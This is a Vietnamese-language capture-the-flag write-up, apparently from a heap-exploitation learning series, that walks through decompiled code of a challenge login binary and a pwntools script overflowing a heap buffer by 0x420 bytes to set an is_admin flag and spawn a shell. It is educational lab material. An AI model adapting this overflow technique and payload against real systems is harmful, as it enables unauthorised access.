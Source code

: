 # Heap overflow 1

dee tiếp tục với seri học heap nào

**Lỗi đầu tiên cơ bản là về tràn bộ nhớ heap (Heap overflow ).** Khi ta có lỗi tràn bộ nhớ heap, ta có thể thay đổi các giá trị của các biến khác nằm bên dưới vùng mà ta có thể ghi đè để làm thay đổi cách chương trình hoạt động. Từ đó ta có thể khai thác và khiến chương trình chạy theo mong muốn.

## ida

```c 
ssize_t init()
{
  int fd; // [rsp+Ch] [rbp-4h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  fd = open("/dev/urandom", 0, 0LL);
  if ( fd < 0 )
    die("Failed to open urandom");
  username_check = malloc(0x200uLL);
  password_check = malloc(0x200uLL);
  username_input = malloc(0x200uLL);
  password_input = malloc(0x200uLL);
  is_admin = (__int64)malloc(0x10uLL);
  read(fd, username_check, 0x200uLL);
  return read(fd, password_check, 0x200uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  puts("******************************************");
  puts("*    Unauthorize access is forbidden!    *");
  puts("******************************************\n");
  printf("Username: ");
  __isoc99_scanf("%s", username_input);
  printf("Password: ");
  __isoc99_scanf("%s", password_input);
  if ( !memcmp(username_input, username_check, 0x200uLL) && !memcmp(password_input, password_check, 0x200uLL) )
    *(_DWORD *)is_admin = 1;
  if ( *(_DWORD *)is_admin == 1 )
  {
    puts("Access granted!");
    system("/bin/sh");
  }
  else
  {
    puts("Access forbidden!");
  }
  return 0;
}
```

đây là chall liên quan đến heap vì các giá trị khởi tạo và nhập vào trong địa chỉ heap

**2 biến username_input và password_input khởi tạo 0x200 byte nhưng mà cho phép ta nhập ko giới hạn số byte => lỗi heap overflow tại đây**

**username_check** và **password_check** thì khởi tạo random, ta không xác định được

## Khai thác

```c 
if ( !memcmp(username_input, username_check, 0x200uLL) && !memcmp(password_input, password_check, 0x200uLL) )
    *(_DWORD *)is_admin = 1;
  if ( *(_DWORD *)is_admin == 1 )
  {
    puts("Access granted!");
    system("/bin/sh");
  }
  else
  {
    puts("Access forbidden!");
  }
```

ở đây có ta đoán 2 có cách có thể lấy được shell

- **cách 1:**

đơn giản là ta làm **nhập cho username_input và password_input giống username_check và password_check là được**

vấn đề ở đây là username_check và password_check thì khởi tạo random, ta không xác định được, **nên ở thực thi cách này là ko khả thi** 

- **cách 2: Sử dụng kĩ thuật Heap Overflow**

ở đây ta hoàn toàn có thể Sử dụng **kĩ thuật Heap Overflow để thay đổi biến is_admin == 1** 

![image](https://github.com/gookoosss/CTF/assets/128712571/688d1890-5a81-4dbc-8770-3f31661560d7)


ta tính **offset từ username_input đến is_admin là 0x420**, sau đó ta sẽ **ghi đè cho is_admin bằng p64(0x1)**

còn password_input thì ta nhập đại thôi

cuối cùng thì ta lấy được shell

![image](https://github.com/gookoosss/CTF/assets/128712571/03d9750f-7ae4-441d-a1b7-86d167038360)


# script

```python 
from pwn import *

p = process('./hof1')

gdb.attach(p, gdbscript = '''
b*main+93
b*main+137
c
''')

input()

payload = b'a'*0x420 + p64(0x1)

p.sendlineafter(b'Username: ', payload)
p.sendlineafter(b'Password: ', b'a'*8)

p.interactive()
```


